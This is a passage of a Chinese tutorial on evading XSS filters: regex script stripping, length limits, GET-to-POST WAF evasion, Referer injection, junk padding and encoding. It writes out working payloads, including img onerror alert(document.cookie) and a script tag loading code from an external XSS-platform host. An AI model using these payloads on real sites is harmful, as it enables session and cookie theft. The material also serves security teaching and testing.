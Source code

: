- `/`干扰

  `</img src="#" onerror="javascript:alert(1)"sbjkdsbfjeb#>`

### 标签语法替换

使用代码 `$name = preg_replace( '/<(.\*)s(.\*)c(.\*)r(.\*)i(.\*)p(.\*)t/i', '', $_GET[ 'name' ] )`，`.`代表任意字符，`*`代表匹配前一个字符0或无限次。其中`preg_replace` 函数可以调用正则表达式，进行 script 的逐字检查，并通过 `/i` 来不区分大小写。

但是上述代码只考虑了script标签的XSS，其实 **JS 脚本不仅仅可以在 `<script>` 标签中使用，通过 `<img>` 标签中 `onerror` 行为也可以调用 JS 脚本。**

提交 `<img src=1 onerror=alert(document.cookie)>`，攻击成功。

也可尝试更多其他标签，比如`<a>`、`<svg>`、`<audio>`等。

![image-20220728162118390](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728162118390.png)

### 字符长度限制绕过

如果只是在浏览器前端进行的字符长度限制，那么要么禁用或者修改前端的相关JS脚本，要么绕过前端在 Burpsuite 中修改数据包就可以轻松绕过限制。

### 提交方式更改

get不行，换post。

比如安全狗的部分拦截仅针对URL（get）进行检测。

![image-20220731151918996](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220731151918996.png)

更换为post提交后payload成功执行：

![image-20220731152045595](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220731152045595.png)

有时也可以选择 HTTP 头部进行注入：

Referer表示本网页的上一个URL，这里的攻击语句首先使用引号闭合语法，然后定义type为text，使得alert(1)能够显示。

![image-20220801092502124](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801092502124.png)

攻击成功，网页上出现弹框：

![image-20220801092649962](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801092649962.png)



### 垃圾数据溢出

在脚本末尾加上大量无关字符，导致过滤条件失效。注意最后要加上#注释、或者//、或者--+，需要自己试（特殊符号干扰）。

比如`<script src='https://xxs8.cc/xxxx'fhdhbgdioslbdvs#>`

### 编码转换（编码绕过）

对输入到页面的数据进行编码转换，使得攻击语句的某些特殊字符被编码，攻击失效。

绕过时，对攻击语句也主动进行编码即可，网站发现这些字符已经被编码，会自动对某些编码进行解码。。
